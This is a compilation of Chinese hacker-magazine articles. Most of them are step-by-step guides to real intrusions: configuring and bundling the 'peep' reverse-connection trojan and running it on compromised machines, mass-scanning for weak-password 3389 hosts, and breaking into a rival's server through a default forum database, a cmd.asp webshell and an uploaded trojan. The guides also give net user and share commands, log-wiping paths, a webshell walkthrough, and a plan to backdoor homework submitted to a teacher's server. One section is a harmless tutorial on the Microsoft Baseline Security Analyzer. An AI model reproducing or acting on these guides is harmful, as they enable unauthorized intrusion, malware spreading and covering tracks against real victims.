

```
Peep@61.183.134.136:123$$$"
```

图 1

我们先建立一个空 TXT 文本文档，比如 bot01.txt，在里面输入 `Peep@218.142.102.14:123$$$"`（或复制 readme.txt 里面的类似一段，然后再修改自己的 IP）。其中 218.142.102.14 是你自己的 IP，123 是端口，可以修改也可以不改。写完后将 bot01.txt 的后缀改为 htm 或者 html，然后上传到自己的主页空间，在浏览器中打开，看看能否正常显示，如图 1 所示。

接下来我们打开 PeepBrowser.exe，开始设置自己的客户端。在客户端界面下面直接按 Ctrl+N，或者通过“档案”→“开启新伺服器”来打开设置界面。伺服器名称只是一个标识，可以随便写，比如我写的 bot01；端口则必须与上传到主页空间内的 bot01.htm 文件上的端口一致；“网页位置”就是你能够浏览到 bot01.htm 文件的网址；“首页档名”必须与你上传的文件名一致；“网页上传主机”，如果你的主页空间不支持 FTP 就不必填写，如果支持就如实填写 FTP 信息，这个和使用 cuteftp 等软件时填写方法是一样的。填写完毕后记得要把“自动开启网页设置服务”项勾选上，这样当下一次你的 IP 改变后就不用重新上传一遍新设置过的网页了。这步设置完毕后如图 2 所示。按下确定，客户端主界面左边就会出现一个伺服器的图标。



图 2

### 二、服务端设置

单击一下刚才设置好的伺服器，可以在它的正上方看到一个箭头和扳手交叉的图标，我们点一下这个图标，将弹出服务端的设置界面。看到它提示“设置被控端前请勿压缩”，哦！原来还没压缩加壳过的呀，等会设置完了可要试试，嘿嘿。点下一步，我们浏览选取要配置的服务端，当然是 peep.exe 了，下面可以选择是否永久常驻，因为出于试验考虑，所以我没选。如图 3 所示。


图 3

进入下一步，这是一个捆绑步骤，有时我们为了迷惑对方，常常把服务端和一个正常的游戏程序绑在一起，可以起到较好的欺骗作用。将“捆绑文件”勾选上，然后选择要捆绑的程序，如图 4 所示。

## 你最喜欢的文章


图 4

再下一步，这步很重要，如果你是拨号等动态 IP 地址，“通报方式”一定要选择“使用网址通报连线”，并在“网址通报”中填写你上传的文件地址，如图 5 所示。


图 5

如果你确实是拥有一个静态 IP，那么可以选择“使用固定位址连线”，这时你可以在“固址通报”中填上你的固定 IP，并指定端口，端口仍然要注意与上传文件的一致性。下一步后如果出现如图 6 所示的成功提示，那么恭喜你，你已经成功配置好了 peep 的服务端。


图 6

> **LOOK 注意**：差点忘了刚才说过要给它压缩一下的，找出 UPX，我去，天！本来就小得可怜的 84K 的服务端居然变成了 38.5K。要知道“网络神偷”的服务端大约 90K，“灰鸽子”的服务端大到 300K，看来台湾的 peep 真是一个小巧玲珑的反弹端口木马。

花了这么多时间配置（其实比起 remote-anything 的配置还算少得可怜），下面我们将进入激动人心的实际操作阶段。

## 三、peep 的实际使用

忍痛到自己的 IRC 房间牵了十几头“马”（肉鸡）出来为 peep 做试验，给他们批量运行了刚才配置好的服务端，立即转到客户端，开启伺服器，如图 7 所示。


图 7

结果一下子弹出两个界面，如图 8 所示。其中一个“bot01 网页设置服务”是让你更新自己的 IP 地址到网页用的，但如果你将“这是 DDoS 攻击地址”勾选上，嘿嘿，你知道会发生什么吧？这个我就不介绍了，有兴趣的朋友自己试。

刷新自己的 IP 后，就可以关掉网页设置服务的窗口了，这时我们看到上线肉鸡的窗口中早已列出来了十几台被控电脑，如图 9 所示。


图 8


图 9

每台电脑的信息非常清楚，系统、版本、IP 地址、国家、处理器类型、内存大小、分辨率、连线序号、还有上线时间全都一目了然，如图 10 所示。


图 10

我们选择一台电脑，打开它的文件管理器，可以看到它正在展开对方的文件夹，如图 11 所示。


图 11

## 你最喜欢的文章

展开后可以清楚看到对方磁盘上的文件，文件图标也和资源管理器看到的差不多，如图 12 所示。


再换一台 Win2000 的电脑，我们来试试它的进程管理器，如图 13 所示。


展开速度非常快，而且每个进程的数据也相当清楚，如图 14 所示。


Peep 还有其它很多功能，如屏幕监控，可以查看也可以控制对方屏幕；文字聊天可以让你和被控电脑打字闲聊；开关远程电脑；修改系统时间；还可以发送组合键，例如 CTRL+DEL+ALT，这个用来进入 Win2000 的账户登录界面或者启动任务管理器。

Peep 是台湾第一匹反弹端口木马，体积小巧仅为 38.5K，功能却相当丰富，使用过程也很稳定，但仍有些许不足之处，比如文件传输速度不快，也有可能我测试时使用的是拨号，所以速度偏慢，但面对它那娇小的体积，我们仍应给予它高度的赞扬，希望以后有更多的台湾朋友加入到编写木马的行列中来，把中国的木马程序发扬光大。


前些日子，我去国内的一些 Hacker 站点和论坛，发现许多贴出来的肉鸡供大家学习之用，这样做很好是好，但是我觉得授人之鱼不如授人之渔。这里我就为大家（主要是针对新手）讲一讲那些所谓的“大虾”是如何找到那么多肉鸡的，希望能对新手有所帮助。肉鸡的目标主要就是 3389 肉鸡，图形界面的肉鸡可是鸡中之极品。下面就为大家介绍一款非常适合新手找鸡的软件——Winnt/2000 自动攻击机。

### 一、准备工作

- 1、Winnt/2000 自动攻击机，它的英文名字是 WINNTAutoAttack。
- 2、Win2k 以上操作系统。
- 3、3389 连接终端。这是微软出的产品，主要用做远程管理，在这里也成为了我们的工具。

### 二、寻找肉鸡

首先打开 Winnt/2000 自动攻击机的主程序 WINNTAutoAttack.exe，主界面如图 1 所示。


你可别小看了这个软件，它融合了密码扫描、IIS 漏洞扫描、SQL 扫描和 3389 终端服务为一身，是一款比较好的国产软件。现在我就为大家介绍这款软件的使用方法。

#### 1、3389 简单密码扫描

首先确立扫描的目标，这款软件的扫描速度飞快，我亲自试验过对一个 C 端的 IP 扫描只需要 20 分钟。确立好目标以后在起始 IP 和结束 IP 上填写你的目标网段，这里我选择的 IP 段是 61.XXX.0.0，结束 IP 段是 61.XXX.255.255，并在“仅对 ping 检查成功的机器进行检测”的前面打上“勾”，这样做的好处是节省扫描时间。然后把“仅对开放 3389 端口的机器进行检测”和“检测 3389 端口”两项勾选上，如图 2 所示。

## 你最喜欢的文章


然后点击菜单条中的“简单管理员密码”，在对话框里的“列出所有简单的管理员帐号”的前面打上“勾”，如图 3 所示。


这样只扫“3389 端口”和“管理员密码”就设置完成了，回到主界面点击“开始”按钮，不大一会就应该扫描到许多有密码的 3389 肉鸡，如图 4 所示就是我的扫描结果。


看到了吗？有一个 IP 为 61.XXX.XXX.XXX 的主机情况是：有一个帐号为 administrator，用户名为 administrators 的是管理员身份，密码为空。还有一个帐号为 daniel，密码为 1234 的用户的身份也是管理员。这说明他开启了 3389 服务而且还有管理员用户名和密码。

到了这里我们还等什么？拿出我们的法宝 3389 登录终端，如图 5 所示是 3389 登录终端的主界面。


把刚才我们扫描到的 IP 地址填写到“计算机（C）”里面，点击“连接”，弹出如图 6 所示窗口。

“用户名”填写刚才扫描得到的用户名，“密码”是空就不用填写了，然后点击“确定”，这样就直接登录到了远程计算机，如图 7 所示。


以上就是这款软件对密码的扫描功能。其实它的功能还很多，下面我就为大家介绍它对 IIS 漏洞的攻击方法。

首先，主界面的设置与前面一样，只是多了在菜单条中的“IIS 溢出”选项里的“开 99 端口 shell”的前面打上“勾”一项，具体设置如图 8 所示。


然后点击“开始”扫描，要是扫描的这个网段存在这个漏洞的主机，你会看到如图 9 所示的信息。

这说明对方主机存在 IIS 的 printer 漏洞，对这个漏洞就不再过多地描述了。然后在本机上点击“开始”->“运行”，在对话框中## 你最喜欢的文章

输入“telnet IP 端口”，如图10所示。


这样即可直接进入对方主机。你可以用以下命令建立用户并提权：

```bash
net user hacker 1234 /add
net localgroup administrators zihuan /add
```


由于最近本人在国内一个黑客站点的论坛上担任版主，所以最近加我QQ的人很多。当然这些人都够“黑”的了，真是所谓“林子大了什么鸟都有”。我的QQ只要一上线，不是对我的主机进行扫描就是给我扔网炸弹……当然这里面有很多都是善意的渗透测试，只是想看看我的主机的设置情况和安全状况，其实我非常欢迎这些善意渗透。

### 一、事情的起因

就在前几天我闲着没事，就一边在网上听音乐，一边聊QQ，与我认识的这些“黑”人交流技术打发时间。忽然我的防火墙疯狂报警，我打开防火墙一看，晕……有一个61.xxx.xxx.xxx的IP对我的主机发起了洪水似的攻击。

我的主机发起了洪水似的攻击。由于我是采用拨号上网的方式，所以我很快就掉线了。防火墙的记录如图1所示。


气愤ing……用DDoS这种极端的方法来轰炸我这台个人电脑。我马上重新断猫上网，准备追踪这位不知名的“黑”客。

### 二、发现敌情

马上拿出了我的法宝，安全焦点的大作“X-Scan”，对防火墙记录的IP（也就是对我发动攻击的主机的IP地址）进行了细致的“抚摸”（扫描），扫描信息如图2所示。

```text
X-Scan v2.3 - 网络安全漏洞扫描器
安全焦点: http://www.xfocus.org, http://www.xfocus.net

正在加载插件...
成功载入所有插件

正在检测“.......！”...
[ : ]:正在检测“开放端口”...
[ : ]:端口21开放: FTP (Control)
[ : ]:端口25开放: SMTP, Simple Mail Transfer Protocol
[ : ]:端口80开放: HTTP, World Wide Web
[ : ]:端口135开放: Location Service
[ : ]:“开放端口”扫描完成,发现4.
[ : ]:正在检测“NT-Server弱口令”...
[ : ]:“NT-Server弱口令”扫描完成.
[ : ]:正在检测“CGI漏洞”...
[ : ]:正在检测“HTTP重定向错误页面”...
[ : ]:正在检测“CGI漏洞”...
[ : ]:“CGI漏洞”扫描完成.
[ : ]:正在检测“IIS漏洞”...
[ : ]:正在检测“HTTP重定向错误页面”...
[ : ]:正在检测“IIS漏洞”...
[ : ]:“IIS漏洞”扫描完成.
[ : ]:“扫描器”扫描完成.
```

图2

狂昏ing......看来这位“黑”客有两下子。该主机一个常见的漏洞都没有，看来今天要打一场硬仗了。

> **LOOK 注意**  
> 到了这里我得出了两个结论：  
> 1. 我扫描的这台主机也许是攻击我的那位“黑”客的肉鸡；  
> 2. 这台主机是那位“黑”客自己的主机。

不管那么多了。主机开放80端口说明该主机一定开放WEB服务，所以我决定先去该主机的WEB站点看一看。直接在浏览器上输入 http://61.xxx.xxx.xxx，打开一看是一个黑客类的站点，没什么名气，可能是刚成立的。就在主页面的最下方写着“xx网络技术安全小组，站长：xxx”，啊......原来是他！我一看气就不打一处来。（至于我是谁在这里就不给大家公布了，给这位留点面子。我听说这位也爱看“黑客X档案”，反正是谁自己心里清楚。）

他的站点做得还不错，只不过有许多地方还没做完。站点上还有一个论坛，进去一看是动网论坛，不过能看得出来这个论坛没有开设任何版块，连title都是动网先锋的字样，说明这个论坛刚建立好，还没有进行设置。我以前也曾经做过自己的站点，也用过动网论坛这个程序。看来今天我要将“报复进行到底”，就从这个动网论坛下手了。

### 三、渗透开始

大家应该对动网论坛不太陌生吧。现在有许多站点都采用这个论坛，页面执行速度很快而且很稳定，漏洞也很少。


图3

不过我看这位“黑”客的论坛刚成立还没来得及设置，基本属于默认安装，我就在浏览器上输入 http://61.xxx.xxx.xxx/bbs/data/dvbbs5.mdb，如图3所示。

哈哈......我的心中一阵坏笑，看来今天老天都要带我把“报复进行到底”。他居然连数据库的默认路径都没有改，一会儿的工夫就下载完毕。回到本地用Access打开一看，呵呵，论坛的管理员ID是admin，密码是admin888，看来他连论坛的默认管理员口令都没有改。

大家到这个时候可能会说：“你不要再往下写了，我们都知道了。你知道了论坛的admin口令，不就可以黑他的论坛了吗？怎么做我们都会，不用你再往下写了。”

呵呵，你们要是这么想就大错特错了。今天我就叫大家看看我是如何用动网论坛渗透他整个主机，最后拿到system权限的。用过动网论坛的都知道在发帖子的时候，有一定权限的人可以上传附件，一般情况下可以上传rar、gif、jpg、bmp、zip、png、swf、doc这几种格式的文件。但是今天的情况就不同了，我现在拿到的是论坛的admin，也就是说我是管理员身份，我可以设置上传文件的类型，也就是说我可以上传任意文件到他主机上去。理论就讲这么多，我用admin身份登录到论坛上去，来到了后台管理页面 http://61.xxx.xxx.xxx/bbs/admin_index.asp，输入刚才得到的ID和口令，就进入了管理页面。依次进入“论坛设置”→“论坛使用设置”→“上传文件类型”，如图4所示。


图4

看到了吗？就是这里，我们可以把论坛上传文件类型加上exe、asp，上传文件大小可以随意设置。设置完毕后点提交，然后我又给他的论坛开设了一个版块叫“黑客你好紫幻到此一游”。呵呵，我够坏的吧？设置完毕后离开管理页面。

### 四、渗透深入

回到前台，进入我刚才开设的版块，点发起话题。然后我上传了一个cmd.asp，如图5所示。


图5

我在浏览器里输入 http://61.xxx.xxx.xxx/bbs/uploadImages/200321622441834835.asp，如图6所示。

到了这里，我就已经拿到了一个Webshell。但是这样还不够，我的目标是拿到系统的system权限。我就想到了孤独剑客的作品“Winshell”，这个木马程序非常好，配置好以后Server端只有5K左右，非常适合像我这样用56K小猫上网的人。


图6

我把“Winshell”的端口设置在50000（这样比较隐秘），密码为abcd。又回到论坛上，把我配置好的木马程序还是用刚才的办法上传到“黑”客的主机上。到了这里大家可能要问了：“你怎么使这个木马发作或者是运行呢？”呵呵……运行这个木马的方法就是本篇要讲述的重要渗透手段和思路。

怎么上传木马我就不再抓图了。上传完毕以后得到了木马的路径 /uploadImages/200321622441834836.exe，我用刚才上传的cmd.asp执行copy命令，把“winshell”木马copy到了scripts目录下：

```bash
copy c:\Inetpub\wwwroot\bbs\uploadImages\200321622441834836.exe c:\Inetpub\Scripts\
```


图7

我把Winshell直接Copy到目标主机的可执行目录下。到了这里马上就可以获取system权限了，直接可以在浏览器里输入 http://61.xxx.xxx.xxx/scripts/200321622441834836.exe（winshell.exe）来使木马运行，如图8所示。


图8

看到浏览器下面进度条了吗？这说明我精心准备的小马发作了。我设置的端口是50000，直接在命令提示符下输入 telnet 61.xxx.xxx.xxx 50000，这样我就进入了“黑”客的系统。建立了一个名为zihuan、密码为1234的用户，还开启了ipc$连接和admin$的共享。由于篇幅的原因我就不抓图了，命令为：

```bash
net user zihuan 1234 /add
net localgroup administrators zihuan /add
net start server
net share ipc$
net share admin$
```

本来想改掉他的主页，后来一想既然渗透进入了他的主机就算了吧。这样已经叫他很尴尬了，得饶人处且饶人，用QQ给他发了一个信息就收工吧！

到了这里总算长出了一口气，但是我这个人还有一个小毛病，喜欢看别人在做什么。于是我又执行了以下命令：

```bash
net use \\61.xxx.xxx.xxx\ipc$ "1234" /user:"zihuan"
```

接着开始远程安装vnc。《黑客X档案》以前多次讲过vnc的用法和如何远程安装，在这里我就不重复说明了。一首歌的工夫就安装完毕，接着远程连接输入密码后，看到了“黑”客的桌面，如图9所示。


图9

看来是一个网吧，他把网吧的主机做成自己的服务器了。他是网吧的老板？他是老板们的朋友？这个是他的肉鸡？他是在这上网的？我就不继续往下猜想了，从意义上说战斗已经结束了。

这样我们又获得了管理权限，可以使用“3389登录终端”为刚才我们建立的“hacker”这个用户和密码“1234”进入对方主机。以上就是利用IIS漏洞把对方主机变为你的“肉鸡”的方法。下面介绍通过SQL漏洞攻击的方法。

卡巴里的设置还跟以上相同，只不过在“SQL漏洞”菜单选项对话框里把“列出sa空密码”和“建立shanlu”两项勾选上，具体设置如图12所示。


- 列出密码为空的sa帐号
- 建立系统管理员帐号（shanlu）
- 上传并安装远程图形控制软件

这样设置以后，如果对方主机存在有SQL的sa空密码漏洞，就可直接在对方主机上建立一个shanlu密码为空的用户，然后即可用3389登录上去。以上就是这款软件的主要功能。

> **注意**  
> 1. 请不要对国内的主机进行扫描，因为这样做对网络新手来说是很危险的。  
> 2. 这款软件要求操作系统是Win2k以上。

Winnt/2000自动攻击机的下载地址：http://www.heibai.net/download/show.php?id=2221

3389登录终端的下载地址：http://zihuan.y365.com/mstsc.rar

### 五、撤离主机

首先我要说明的一点是，虽然我渗透进入了对方的系统，但是不足以说明对方的实力。他只是一个小小的疏忽导致了整个系统被渗透，所以我还是小心为妙。

首先删除use连接。命令是：

```bash
net use \\61.xxx.xxx.xxx\ipc$ /delete
```

然后删除以下日志文件：

```text
C:\winnt\system32\logfiles\*.*
C:\winnt\system32\config\*.evt
C:\winnt\system32\dtclog\*.*
C:\winnt\system32\*.log
C:\winnt\system32\*.txt
C:\winnt\*.txt
C:\winnt\*.log
```

### 六、总结

回顾这次渗透可真算辛苦啊！为了拿个system权限眼睛都花了，但是心里还是很高兴，毕竟对手也是“黑”坛中人。

他的主机总结有以下几点安全隐患：

- 在网上找的论坛程序没有改掉数据库的默认路径，这是最重要的一点，也是最容易疏忽的地方。有很多被黑事件当中都是因为这个导致的。
- 没有禁用cmd.asp，如果被人暴力破解FTP口令，也是很容易被渗透到的。
- 用自己的主机攻击别人。

以后大家在渗透的时候一定要记得在肉鸡上进行或者是用跳板，俗话说得好：小心驶得万年船。

到这里有些读者还是有疑问。你刚才为什么不上传idq.dll，用ispc.exe拿到他的system呢？这样不是很方便吗？

非也，自从微软出了SP3补丁以后，idq.dll在SP3下就不起作用了。建议大家还是使用一些可以在SP3下也可以正常使用的程序。除了“winshell”，别的程序也可以。只要是在scripts目录下就可以执行任意程序，请大家学活用活。

> 小结：本篇讲述的内容主要是教大家以后在渗透的时候牢记一句话：只要功夫深，铁杵磨成针。

## Microsoft Baseline Security Analyzer

## 保护你的计算机

### 安全天使.angel

很多人抱怨操作系统不安全，特别是微软的NT内核操作系统，漏洞千变万化。大家要理解，每个软件都存在BUG。存在BUG并不可怕，可怕的是存在BUG却不知道修补、防范。

前段时间好友晓风.残月说MCSE课程的讲师说起一个工具，可以自动检测安全设置和系统漏洞，并给出很详细的漏洞说明，还有修补的途径以及方法。不过，这么好的工具只在微软的英文网站上有下载，而且是全英文的。

为了方便大家下载，我把这个工具放到我的网站，下载地址：http://www.sangel.net/download/list.asp?id=157。

> LOOK 注意：该工具只能在Windows 2000或Windows XP、Internet Explorer 5.01或更高版本上运行。如果浏览器不高于5.01，系统会提示需要安装XML分析器以便运行这个工具，确认安装就可以了。

如果你不想升级你的IE，可以下载一个单独的XML分析器。你可以从下面的地址下载到：http://msdn.microsoft.com/downloads/default.asp?url=/downloads/sample.asp?url=/msdn-files/027/001/772/msdncompositedoc.xml。  
而且要运行这个工具必须具备管理员权限，每次只能修补一个漏洞。

### Pick a computer to scan

Specify the computer you want to scan. You can enter either the computer name or its IP address.


### View security report

下载安装好并运行后，出现该工具界面，如图1所示。


很单一的功能，只负责分析检查漏洞，这可才是精髓所在。这个工具还提供了命令行的工作方式。首先我们来看看图形界面下的使用，单击“Scan a computer”检测一台电脑，大家可以看到扫描项目有多详尽了吧？如图2所示。

检查Windows漏洞、检查弱口令、检查IIS漏洞、检查SQL漏洞、检查安全更新情况，这些足以和一些专业的扫描器相媲美。选择好需要扫描的项目即可点击“Start scan”开始检测，过一会就可以发现检查完毕，并罗列出一条条的检测结果，如图3、图4所示。

而且每条结果下面都有几个选项：What was scanned（扫描到什么）、Result details（结果细节）、How to correct this（如何修补）。

我的机器装有SP3且经过细心地安全配置，用X-scan和LANguard Network Scanner 3检查不出任何漏洞，仅显示打开了一个80端口。可是这里却列出这么多！并非一些扫描工具可比。我们来看看“Local Account Password Test（本地的帐号口令测试）”选项，它的前面有一个勾，说明这是安全的，所以没有出现“How to correct this”这样一个选项。再来看看What was scanned，如图5所示。

看到了吗？上面就是很详细的说明和举例。下面的链接就是连接到微软站点的相关资料以及建议，比一些专业的扫描报告还实用。我们再来看看Result details，如图6所示。


图4


图5


图6

除了GUEST用户有问题，其他的得到了“勾”的评价。

下面说说命令行方式的操作。和其它工具一样，文件名加各种参数就可以执行各种不同的操作。该工具目录下的mbsacli.exe就是这个关键。输入 mbsacli.exe /? 就可以看到长长一排的使用帮助，如图7所示。


图7

下面列举几个比较常用的参数，其他的参数还靠大家自己去挖掘。

- `<no option>` 这是不加任何参数，默认扫描本机。
- `/c <domainname>\<computername>` 这是扫描工作组里的主机，如 WORKGROUP\SANGEL。
- `/i <xxx.xxx.xxx.xxx>` 扫描IP，不用说了吧？针对一台主机。
- `/r <xxx.xxx.xxx.xxx-xxx.xxx.xxx.xxx>` 扫描IP段，针对多台主机。
- `/d <domainname>` 输入域名进行扫描。
- `/n` 跳过不检测的部分，如 `/n IIS`、`/n OS`、`/n Password`、`/n SQL`、`/n Updates`。
- `/e` 显示最近的扫描错误列表。
- `/l` 显示所有的报告。
- `/ls` 显示最近的扫描报告。
- `/lr <report name>` 显示概要报告。
- `/ld <report name>` 显示详细的报告。

参数实在太多了。不过经测试，图形界面的检测效果要比命令行的效果好，所以建议大家使用图形界面直接检测。

更新完以后重新启动就可以了。总的来说，这款工具是非常好的，毕竟是官方的东西嘛，希望大家能善用这种东西。

## 海阳顶端网 asp2003 木马应用详解

by lcx

提到这个木马，我就非常尴尬。很多人听说过我的网名 lcx，还有我的小站“海阳顶端网”，就是因为他们用过 asp 木马程序。但是好笑的是，这个木马的确不是我写的。在 2001 年，U 漏洞流行的年代，有一次为了拿到一个国外网站的 pcAnywhere 的密码 \*.cif 文件，但这个 \*.cif 文件目录很深，目录、子目录都有空格，我用 U 漏洞无论如何也拿不到。于是，我手工写了一个 asp 拷贝小程序，将其轻易拷贝到网站的 Web 目录，从而将它下载下来了。

从那时起，我就打算写一个 asp 在线管理程序。当时写了一个非常粗糙的版本，有很多 bug，功能也不多。后来又在网上看到了“网辰”在线编辑和“化境”的在线编辑 asp 程序，因为“网辰”的程序太出色了，我马上就放弃了自己开发的思路。

“网辰”的源代码没有文件上传，“化境”的在线编辑源代码没有“网辰”的好用。我就将这两套程序合二为一，组成了海阳顶端网木马的第一版。2003 年 1 月，我又加入了“阿江”的 asp 探针及网上流传甚广的 aspcmd 后门（这个好像是大名鼎鼎的 sql 写的）和几乎没人知道的“不依赖 fso”的 asp 后门（好像是 czy 写的），去掉了第一版的几个 bug，组成了海阳顶端网木马 2003。现在海阳顶端网木马第一版和 2003 版在小风居和黑白你都可以下载，你可以比较它们的不同。

那么我们可以用这个木马来做什么呢？它几乎在 NT 肉鸡里无所不能。

### 一、如何运行

程序运行通过的服务器环境：IIS3/IIS4/IIS5 + 中英文 W2k/NT/XP 或 PWS + Win98/ME（Win98/ME 下，木马里的 cmd.asp 不能运行）。

我们在客户端（本机）用一个浏览器就可以了，浏览器要求支持 Cookie。把海阳顶端网木马 2003 的 9 个文件上传到肉鸡支持 asp 的目录，是否虚拟目录都可。然后我们用 IE 打开 asp 木马的 URL。由于某些原因，我现在用本机演示这套 asp 木马。

如下图 1 和图 2 所示，两个图表示的是 asp 木马的首页。在图中，我们可以看到探测到服务器的 IP、CPU 数量等参数。


图 1


图 2

> 注意：这个木马我们用的是 http://127.0.0.1/aspmm/index.asp 来访问，也就是说虚拟路径是 /aspmm/，而实际物理路径是图 1 探测显示的物理路径 d:\aspmm。这也是我在下文中强调的相对路径和绝对路径。

在图 1 中，如果 Scripting.FileSystemObject（FSO 文本文件读写）这一行打了勾的话，就是我们常说的服务器支持 fso 了。如果打了叉，就是不支持。在图 2 最下方有一个密码框，默认密码是“haiyangtop.126.com”，你可以用记事本打开 index.asp 文件，找到“haiyangtop.126.com”，将其改成别的密码。

### 二、功能图解

输入密码点击确定后，我们来到了如图 3 所示对话框。


图 3

在图 3 里，可以清楚地看到，现在我们是在肉鸡的相对路径，一般情况下就是直接进入肉鸡网站的 Web 目录。相对路径就是我说的虚拟目录，切换到绝对路径就是肉鸡的物理路径了。点击最顶端的“切换到相应盘符 C、D、E”，我们可以遍历肉鸡的整个硬盘了。在图 3 对话框中输入一个文件名，像 lcx.txt，然后点“新建文件”按钮，就可以在当前路径下建立一个文本文件。同样，也可以新建一个文件夹。点击“上传文件”后，弹出如图 4 所示对话框。


图 4


图 5

上传时要注意，只能传至虚拟目录，也就是木马所表示的相对路径。像你可以传至图 3 所示的当前目录“/lz”（在图 3 左边，仔细看）中，它的绝对路径就是 c:\inetpub\wwwroot\lz，在上传的虚拟目录里就要写“/lz”，不要写物理路径。

如果你要把 p.asp 复制到“/lz”目录下，就要带上文件名，要不然就会出错。如果切换到绝对路径下，你要复制的路径就应当是 c:\p.asp 这样写了，如图 5 所示。至于它的功能编辑、删除、属性，你应当一看就会。

### 三、运行程序

如图 6 和图 7 所示，这两种运行的方法是一样的，不过一个要求 fso 支持，另一个不要求。在这里运行的程序，我们不能要求程序太大，最好几十 KB 就可以了。


图 6


图 7

> LOOK 注意：顺便说一下，如果在 asp 木马首页中，看到肉鸡不支持 fso，你可以直接输入 http://ip/p.asp 来运行而不依赖 fso 这个 asp 后门。（p.asp 文件在压缩包中）

程序运行完后，我们输入：telnet 127.0.0.1 5277 进行测试，这样 we 就可以得到一个 shell 了。不过这个 shell 是 iuser 权限，因为你用的木马就是 iuser 权限。至于哪些命令能执行，哪些不能执行，你可以进行测试。不过 cmd.asp 可以在程序上加参数，而 p.asp 不可以。

## 一次非常规漏洞攻击实例

ypy

不知道学校是怎么安排课程的，这学期竟然开了 Visual Basic 课程。VB 我以前自学过，应付学校的考试绰绰有余，所以第一次上课就差点睡着了。

三节课浑浑噩噩地快结束了，我都不知道老师讲到什么地方了，只记得老师说他们用办公室的电脑作服务器建了一个网站，主要用来实现作业无纸化什么的，并且给了我们网址。

下课了，同学们讨论说那个老师看上去怎么怎么厉害，我听了有点不以为然。厉害不厉害，就先拿他的网站试试。找个时间上那个网站看了看，网站不是很漂亮，但很实用。主要有作业提交系统，免费个人主页空间申请及页面上传系统，还有就是一个动网的论坛。看版权说明介绍，除了论坛，其它 asp 程序全部都是老师自己写的。

接下来我试着收集一下服务器信息。先 telnet 到服务器的 80 端口，打 get，回车，返回信息如下：

```text
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/5.0
Date: Thu, 23 Feb 2003 05:46:16 GMT
Content-Type: text/html
Content-Length: 87
<html><head><title>Error</title></head><body>The parameter is incorrect. </body></html>
```

看来服务器系统是 Win2000 + IIS5.0（我比较喜欢的敌人），运行 X-scan，勾上针对 Win2000 的探测选项。不一会儿结果出来了，没有一个可以利用的漏洞，并且只开了 21、80 等几个常规端口。意料之中，毕竟是计算机系的教授嘛。

我又登录到网站仔细看了看。那个个人主页空间申请及页面上传系统吸引了我。记得当时老师说过，只要是他教的班级的学生，都可以用学号和真实姓名注册得到一个 5M 的主页空间，并且还支持 asp。

支持 asp？好极了！我不是可以上传 cmdasp.asp 得到一个 webshell 了吗？我马上用我的学号和名字注册了一个帐号，登录 Homepage，点击网页上传，得到一个上传界面，如图 1 所示：


为了不被轻易发现，我把 cmdasp.asp 改名为 jxTemp.asp 后点击上传至 \*\* 目录，结果返回错误信息，如图 2 所示：


看来是老师写的 asp 程序在文本文件上传的过程中要读取文件内容，并且过滤那些有危险命令的文件。哎！确实是姜还是老的辣，这一招都想到了，佩服！

此路不通，怎么办？慢着，他过滤的命令应该是自定义的字符串？如果是这样的话，也许我可以先上传一个在线文本编辑系统，也就是主页在线维护系统，然后再利用文本编辑系统编辑一个 cmdasp.asp，并把它存储在服务器中。但这个我不怎么了解，不知道是否可行。

本来我准备到网上找一个这样的免费系统来验证我上面的想法，可第二次上的 VB 课却让我没有机会来验证了。VB 老师要求我们去网站上查看各自的作业，并且把做好的作业上传到自己的 Homepage 目录，他将会直接在服务器上查看。让我放弃实验先前想法的是，老师要求我们上传的作业竟然是编译好的 exe 文件！！！

也许这时候你也想到了，老师既然是直接在服务器上查看作业，那我们就可以在 exe 文件上动手脚了。直接传一个改好名字的木马程序？不行，老师运行后就会觉察到不对劲，而且肯定安装了杀毒软件。

既然老师在查看作业的时候不知不觉中招，那还得在提交的作业中做手脚。做什么手脚呢？呵呵，还是老思路，弄个 webshell，之所以喜欢 cmdasp，是因为它不容易被发现。


作业很简单，要求编译后的界面如图 3 所示，并且要把源代码也上传。

我先把作业要求的内容做完后保存工程及窗体文件，这些都是老师要看的嘛。:)

